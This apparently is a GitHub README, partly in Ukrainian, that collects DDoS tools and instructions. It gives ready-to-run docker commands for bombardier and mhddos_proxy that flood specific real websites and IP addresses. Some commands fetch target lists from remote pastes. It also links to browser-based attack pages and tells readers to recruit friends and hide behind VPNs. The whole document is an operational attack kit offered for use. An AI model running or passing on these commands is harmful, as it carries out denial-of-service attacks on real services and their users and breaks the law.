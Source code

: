 # Tools for DDoS

## Death by 1000 needles

[Instruction](https://telegra.ph/Death-by-1000-needles-03-17)
[Github](https://github.com/Arriven/db1000n)

> docker run --rm --pull always ghcr.io/arriven/db1000n ./main -c <targets> -debug

## Liberator (from disBalancer)

[Link 1](https://blog.disbalancer.com/liberator-faq-ukra%D1%97nska/)
[Link 2](https://github.com/disbalancer-project/main)

## LOIC - Low Orbit Ion Cannon

???

## KiberBULL

 0. Instructions
    [інструкція для розгортання віртуалок на АМАЗОНІ, завжди перевіряйте баланс!](https://telegra.ph/DDOS-SEPAR-02-26)
    [інструкція для розгортання віртуалок на Digital Ocean, завжди перевіряйте баланс!](https://telegra.ph/Digital-Ocean-02-27)
    [атака з будь-якого пристрою на конкретну ціль](https://www.lookquizru.xyz)
    [атака з будь-якого пристрою на декілька цілей](https://2022pollquizinru.xyz/)
    [Як бути корисним](https://telegra.ph/Korist-03-05)
    [Створення Kubernetes кластера в AWS](https://rentry.co/tvqtm)

 1. Docker - MHDDoS —  без VPN: 

 > sudo docker run -ti --rm alpine/bombardier -c 100 -d 3600s -l https://regnum.ru  

 > sudo docker run -it --rm --pull always portholeascend/mhddos_proxy:latest -c https://pastebin.com/raw/DjWYfRg1 --debug

 > sudo docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest -c https://lookquizru.xyz/paste.txt --table
 
 > sudo docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest tcp://178.57.71.182:443 tcp://178.57.71.190:443 tcp://185.31.134.103:443 tcp://185.31.134.104:443 -t 1000 -p 1200 --rpc 1000 --debug

 > docker run -it --rm --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest https://evotor.ru -t 2000 --rpc 1000 -p 900 --http-methods STRESS --debug

 2. https://www.lookquizru.xyz, https://2022pollquizinru.xyz/ — залучайте друзів до атаки, достатньо просто натиснути СТАРТ; час від часу чистіть кеш Вашого браузеру та користуйтесь VPN/проксі.

## Other

[Grrwahrr](https://github.com/Grrwahrr/avtomat_dos)
[Ban Dera](http://ban-dera.com)
[Runner Go](https://github.com/nanabanano/runner-go/)